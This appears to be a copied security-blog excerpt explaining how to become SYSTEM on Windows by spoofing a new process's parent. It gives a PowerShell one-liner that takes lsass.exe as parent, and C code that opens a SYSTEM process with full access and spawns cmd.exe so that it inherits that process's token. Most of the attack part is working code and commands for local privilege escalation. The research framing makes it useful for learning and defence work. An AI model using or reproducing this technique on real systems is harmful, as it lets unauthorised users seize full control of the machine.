

https://blog.xpnsec.com/becoming-system/
This method of becoming SYSTEM was actually revealed to me via a post from James Forshaw's walkthrough of how to become "Trusted Installer".
NtObjectManager provides a nice easy way to achieve this using PowerShell:
New-Win32Process cmd.exe -CreationFlags Newconsole -ParentProcess (Get-NtProcess -Name lsass.exe)
How this technique works is by leveraging the CreateProcess Win32 API call, and using its support for assigning the parent of a newly spawned process via the PROC_THREAD_ATTRIBUTE_PARENT_PROCESS attribute.
If we review the documentation of this setting, we see the following:

So, this means if we set the parent process of our newly spawned process, we will inherit the process token. This gives us a cool way to grab the SYSTEM account via the process token.
We can create a new process and set the parent with the following code:
====================================================================
int pid;
HANDLE pHandle = NULL;
STARTUPINFOEXA si;
PROCESS_INFORMATION pi;
SIZE_T size;
BOOL ret;
// Set the PID to a SYSTEM process PID
pid = 555;
EnableDebugPriv();
// Open the process which we will inherit the handle from
if ((pHandle = OpenProcess(PROCESS_ALL_ACCESS, false, pid)) == 0) {
printf("Error opening PID %d\n", pid);
return 2;
}
// Create our PROC_THREAD_ATTRIBUTE_PARENT_PROCESS attribute
ZeroMemory(&si, sizeof(STARTUPINFOEXA));
InitializeProcThreadAttributeList(NULL, 1, 0, &size);
si.lpAttributeList = (LPPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(
GetProcessHeap(),
0,
size
);
InitializeProcThreadAttributeList(si.lpAttributeList, 1, 0, &size);
UpdateProcThreadAttribute(si.lpAttributeList, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &pHandle, sizeof(HANDLE), NULL, NULL);
si.StartupInfo.cb = sizeof(STARTUPINFOEXA);
// Finally, create the process
ret = CreateProcessA(
"C:\\Windows\\system32\\cmd.exe",
NULL,
NULL,
NULL,
true,
EXTENDED_STARTUPINFO_PRESENT | CREATE_NEW_CONSOLE,
NULL,
NULL,
reinterpret_cast<LPSTARTUPINFOA>(&si),
&pi
);
if (ret == false) {
printf("Error creating new process (%d)\n", GetLastError());
return 3;
}
====================================================================
When compiled, we see that we can launch a process and inherit an access token from a parent process running as SYSTEM such as lsass.exe.
The source for this technique can be found here.
Alternatively, NtObjectManager provides a nice easy way to achieve this using PowerShell:
New-Win32Process cmd.exe -CreationFlags Newconsole -ParentProcess (Get-NtProcess -Name lsass.exe)